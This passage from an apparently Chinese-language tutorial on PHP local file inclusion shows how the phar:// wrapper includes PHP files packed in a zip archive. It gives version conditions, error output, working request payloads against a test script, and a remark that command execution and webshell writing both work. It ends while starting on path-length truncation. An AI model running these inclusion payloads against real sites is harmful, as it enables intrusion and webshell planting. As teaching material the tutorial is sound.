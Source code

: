 <a class="reference-link" name="%E6%B3%A8%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%92%8C%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC"></a>**注意命令执行和写入木马**

都是可以的，具体看`zip://`

<a class="reference-link" name="%E5%A7%BF%E5%8A%BF%E4%BA%8C%EF%BC%9A%E5%88%A9%E7%94%A8phar%E4%BC%AA%E5%8D%8F%E8%AE%AE"></a>**姿势二：利用phar伪协议**

利用phar伪协议有限制条件：php版本大于等于php 5.3.4。我测试用了php版本为5.2.17，然后使用下面的绝对路径与相对路径的方式都会报错：

```
Warning: include(phar://J0.zip\J0/test/test.php) [function.include]: failed to open stream: Invalid argument in D:\phpStudy\PHPTutorial\WWW\fileinclude2.php on line 3

Warning: include() [function.include]: Failed opening 'phar://J0.zip\J0/test/test.php' for inclusion (include_path='.;C:\php5\pear') in D:\phpStudy\PHPTutorial\WWW\fileinclude2.php on line 3

```

而以下能成功是因为我用的php版本为5.4.45。

还有一些别的利用条件等请看上面的`phar://`。

构造压缩包同上面姿势一相同

指定绝对路径：

```
fileinclude2.php?file=phar://D:\phpStudy\PHPTutorial\WWW\J0.zip\J0
```

则拼接后为：`phar://D:\phpStudy\PHPTutorial\WWW\J0.zip\J0/test/test.php`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016a1d0b9e4b5c3767.png)

能成功包含。

使用相对路径（这里`J0.zip`就在当前目录下，和`fileinclude2.php`同一目录）:

```
fileinclude2.php?file=phar://J0.zip\J0
```

则拼接后为：`phar://J0.zip\J0/test/test.php`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c409fa37ac9c2890.png)

<a class="reference-link" name="%E6%B3%A8%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%92%8C%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC"></a>**注意命令执行和写入木马**

都是可以的，具体看`phar://`

<a class="reference-link" name="%E8%A7%A3%E5%86%B3%EF%BC%9A%E9%95%BF%E5%BA%A6%E6%88%AA%E6%96%AD"></a>**解决：长度截断**

利用条件： php版本小于php 5.2.8

目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`./`
